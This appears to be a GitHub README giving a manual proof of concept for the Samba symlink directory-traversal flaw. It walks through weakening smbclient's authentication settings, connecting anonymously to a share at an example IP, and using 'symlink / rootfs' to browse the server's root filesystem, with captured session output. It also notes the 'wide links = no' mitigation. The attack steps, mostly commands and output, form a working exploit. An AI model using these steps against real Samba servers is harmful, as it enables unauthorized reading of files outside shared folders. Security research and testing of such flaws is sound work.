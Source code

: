 # Symlink-Directory-Traversal-smb-manually


Samba symlink traversal manual exploit

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an below lines on exiting smbconfig file..

```
check smb config info

$ testparm

Load smb config files from /etc/samba/smb.conf
```

then first take backup of exisitng smb.conf file 

```
cp smb.conf smb.conf.bak
```

add below lines

```
client lanman auth = yes
client ntlmv2 auth = no
client min protocol = CORE
client max protocol = SMB3
```
Try to connect 

```
$ ./smbclient //10.1.1.136/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //10.1.1.136/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```

